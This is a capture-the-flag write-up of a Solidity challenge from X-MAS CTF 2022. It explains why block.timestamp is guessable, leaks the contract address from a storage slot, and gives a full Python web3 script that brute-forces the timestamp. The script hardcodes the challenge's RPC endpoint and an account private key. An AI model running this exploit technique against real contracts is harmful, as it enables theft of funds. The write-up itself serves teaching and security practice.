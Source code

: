 ## Summary

Recently, I participated in the X-MAS 2022 CTF in my free time. There was an interesting blockchain related challenge. In this challenge, we were provided the source code of a vulnerable Solidity smart contract. The goal is to exploit the vulnerability and get the flag

The image below shows the source code of the contract

![1.png](images/1.png "1.png")

It is a straightforward contract which has two functions:

1. `_getPreviousTimestamp`: This function will return the timestamp of the block using block.timestamp
2. solve: This function will accept an integer as an input and compare it with block.timestamp

The goal is to be able to guess the block.timestamp accurately

Before we jump into the solution, it is important to mention that the value of block.timestamp is not a constant and it can be manipulated by the miner. This is why it is not suggested to use block.timestamp to generate random numbers in real world smart contracts since its value can be manipulated and guessed.

The value of block.timestamp in the Ethereum mainnet (prior to Merge) was usually within a range. It had to be greater than or equal to value of block.timestamp in parent block and it should be within a range. It can be represented mathematically as shown below.
```
block.timestamp <= now + X and is block.timestamp >= parent.timestamp
```
Here X is the range within which the block.timestamp would have to be

Refer for more details here: https://github.com/ethereum/wiki/blob/c02254611f218f43cbb07517ca8e5d00fd6d6d75/Block-Protocol-2.0.md

## Challenge

When we connect to challenge server, it deploys the vulnerable contract on a private instance of a blockchain and provides us the 4 options as shown in the image below.

![2.png](images/2.png "2.png")

Below is a brief description of these 4 options.

1. **uuid**: a unique identifier used to indicate our challenge instance
2. **rpc endpoint**: this is the private RPC URL used to connect to the private blockchain
3. **private key**: This is the private key of the account provided to us to interact with the blockchain. It is loaded with some balance to use for the gas fee
4. **setup contract**: this is the address of the deployer contract

There are two main steps to solve this challenge
- Leaking the vulnerable contract address
- Bruteforcing the block.timestamp

Now, we will discuss each step in detail.

## Leaking the vulnerable contract address

It is important to note that the setup contract address provided to us does not correspond to the vulnerable contract address. So, we still have to find the address of vulnerable contract.

My way of leaking vulnerable contract address was by reading the storage slot of the setup contract address. Since the setup contract deployed the vulnerable contract, the address of vulnerable contract would be stored in a storage slot of setup contract

```
vuln_contract_address =  w3.toChecksumAddress("0x" + w3.eth.get_storage_at(setup_contract_address, 0).hex()[-40:])
```
If you want to understand why address is stored in the storage slot, you can fetch the bytecode of setup contract, decompile it and understand it.

## Bruteforcing the block.timestamp

The next step was to interact with the vulnerable contract, do transactions and guess the block.timestamp

The first thing I noticed was that each time we do a transaction, the value of block number incremented by 1 and the value of block.timestamp incremented by a random value.

Even though block.timestamp incremented by a random value, it was still within a range. Per my analysis, it was within a range of 100 seconds

So, to solve the challenge, I ran a loop for a maximum of 100 iterations. In each iteration, I would get the block.timestamp, increment it by 2 and send it in transaction. Then I would compare the block.timestamp after transaction with the previous value (incremented by 2). If the difference is 0, then it means we guessed it

Also, in the vulnerable contract source code, we can see that the value of state variable solved would be set to true if the challenge is solved. By checking for this value, we can confirm when the challenge is solved

Figure 3 below shows my script solving it:

![3.png](images/3.png "3.png")

Once we have solved it, we just need to connect to the challenge server, submit our uuid and setup contract address to get the flag.

![4.png](images/4.png "4.png")

Flag: X-MAS{beginooor}

## Solution code
```python
import web3
import time

print("Solution to Blocker challenge in X-MAS CTF 2022")
print("Sudeep Singh, Twitter @ SinghSoodeep")

rpc_url = "http://challs.htsp.ro:9001/ad8e2899-f227-4c48-83a1-17bf5d82809b"
w3 = web3.Web3(web3.Web3.HTTPProvider(rpc_url))
w3.isConnected()

setup_contract_address = "0x593EDc28F0Be694354BCe80c4b2DD991eE58E6Ca"
private_key = "0x4c93f3ae3b52d4ce27af51e8658b97e24a1f2eadb8a85cceaee0373cacca75dd"
print("Fetching account using the private key")

account = w3.eth.account.privateKeyToAccount(private_key)

print("Account address is: {}".format(account.address))

balance = w3.eth.getBalance(account.address)

abi = [{"inputs":[],"name":"current_timestamp","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"uint256","name":"_guess","type":"uint256"}],"name":"solve","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"solved","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"}]

print("Leaking the vulnerable contract address")

vuln_contract_address =  w3.toChecksumAddress("0x" + w3.eth.get_storage_at(setup_contract_address, 0).hex()[-40:])

print("vulnerable contract address at: {}".format(vuln_contract_address))

gas_price = w3.eth.gasPrice
gas_limit = 1000000

web3.eth.defaultAccount = account.address

contract = w3.eth.contract(abi=abi, address=vuln_contract_address)

print("time analysis!!")
print("Exploit the vulnerability by bruteforcing the block.timestamp")

for i in range(100):
    before_block = w3.eth.get_block_number()
    tstamp = w3.eth.getBlock(w3.eth.get_block_number())['timestamp'] + 2
    _solved = contract.functions.solved().call()
    _current_timestamp = contract.functions.current_timestamp().call()
    print("BEFORE: block_number: {}, tstamp: {}".format(before_block, tstamp))
    print("BEFORE: solved: {}".format(_solved))
    tx_hash =  contract.functions.solve(tstamp).transact({"gasPrice": gas_price, "gas": gas_limit})
    after_block = w3.eth.get_block_number()
    after_tstamp = w3.eth.getBlock(w3.eth.get_block_number())['timestamp']
    _solved = contract.functions.solved().call()
    _current_timestamp = contract.functions.current_timestamp().call()
    print("AFTER: block_number: {}, tstamp: {}".format(after_block, after_tstamp))
    print("AFTER: solved: {}".format(_solved))
    print("time diff: {}".format(after_tstamp - tstamp))
    print("*********************************")
    time.sleep(0.5)
    if _solved == True:
        print("solved!")
        break
```
